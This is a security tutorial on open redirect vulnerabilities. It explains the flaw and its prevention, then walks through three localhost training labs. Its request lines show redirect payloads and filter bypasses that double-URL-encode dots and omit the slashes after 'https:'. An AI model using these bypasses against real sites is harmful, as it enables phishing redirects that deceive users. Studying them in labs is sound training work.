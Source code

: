 The **Open Redirect** vulnerability, is a common vulnerability in web applications that can be exploited by attackers to direct users to malicious websites. This vulnerability occurs when a web application allows attackers to manipulate the URL of a redirect page to redirect the user to a malicious website.

For example, suppose a web application uses a redirect parameter in a URL to direct the user to an external page after they have authenticated. If this URL does not properly validate the redirect parameter and allows attackers to modify it, the attackers can direct the user to a malicious website, instead of the legitimate website.

An example of how attackers can exploit the open redirect vulnerability is by creating phishing emails that look legitimate, but actually contain manipulated links that redirect users to a malicious website. Attackers may use social engineering techniques to convince the user to click on the link, such as offering an attractive offer or a unique opportunity.

To prevent the open redirect vulnerability, it is important for developers to implement appropriate security measures in their code, such as validating redirect URLs and limiting redirect options to legitimate websites. Developers can also use secure encoding techniques to prevent URL manipulation, such as special character encoding and stripping invalid characters.

# Example

## Example 1

For the realization of this example we are going to download the following lab:

```bash
svn checkout https://github.com/blabla1337/skf-labs/trunk/nodeJs/Url-redirection
```

And then we are going to run the service:

```bash
npm install
npm start
```

Once executed, we can go to *localhost* on port *5000*.

When we enter the page it indicates that we are in the old page, and if we click on the link it redirects us to the new one, which is *\http://localhost:5000/newsite*. Let's analyze this redirection with **BurpSuite**.

The following request is being processed:

```bash
POST /redirect?newurl=/newsite HTTP/1.1
```

In this case, as we can put in the *newurl* parameter, for example, *\https://google.es* and this redirects us to *Google*, an *Open Redirect* would be applied:

```
POST /redirect?newurl=https://google.es HTTP/1.1
```


## Example 2

For the realization of this example we are going to download the following lab:

```bash
svn checkout https://github.com/blabla1337/skf-labs/trunk/nodeJs/Url-redirection-harder
```

And then we are going to run the service:

```bash
npm install
npm start
```

Once executed, we can go to *localhost* on port *5000*.

When we enter the page it indicates that we are in the old page, and if we click on the link it redirects us to the new one, which is *\http://localhost:5000/newsite*. Let's analyze this redirection with **BurpSuite**.

The following request is being processed:

```bash
POST /redirect?newurl=/newsite HTTP/1.1
```

If we try to do the same as in the previous example and try to redirect to *Google*, it will tell us that it is not possible to put *dots* in the redirect.

To fix this we must *url-encode* the dot in the redirect and *re-url-encode* it:

```bash
# Original request
POST /redirect?newurl=https://google.es HTTP/1.1

# Dot url-encoded request
POST /redirect?newurl=https://google%2ees HTTP/1.1

# Dot-double url-encoded request
POST /redirect?newurl=https://google%252ees HTTP/1.1
```

## Example 3

For the realization of this example we are going to download the following lab:

```bash
svn checkout https://github.com/blabla1337/skf-labs/trunk/nodeJs/Url-redirection-harder2
```

And then we are going to run the service:

```bash
npm install
npm start
```

Once executed, we can go to *localhost* on port *5000*.

When we enter the page it indicates that we are in the old page, and if we click on the link it redirects us to the new one, which is *\http://localhost:5000/newsite*. Let's analyze this redirection with **BurpSuite**.

The following request is being processed:

```bash
POST /redirect?newurl=/newsite HTTP/1.1
```

If we try to do the same as in the previous example and try to redirect to *Google*, it will tell us that it is not possible to put *dots* nor *slashes* in the redirect.

To fix this we must *url-encode* the *dot* in the redirect and *re-url-encode* it:

```bash
# Original request
POST /redirect?newurl=https://google.es HTTP/1.1

# Dot url-encoded request
POST /redirect?newurl=https://google%2ees HTTP/1.1

# Dot-double url-encoded request
POST /redirect?newurl=https://google%252ees HTTP/1.1
```

Right now the slashes give us conflict, but we can take advantage of the fact that in the HTTPS protocol it is not necessary to include them to bypass it:

```bash
POST /redirect?newurl=https:google%252ees HTTP/1.1
```

----
> *Open Redirect* as such is very simple, but its power lies in its combination with other vulnerabilities.
----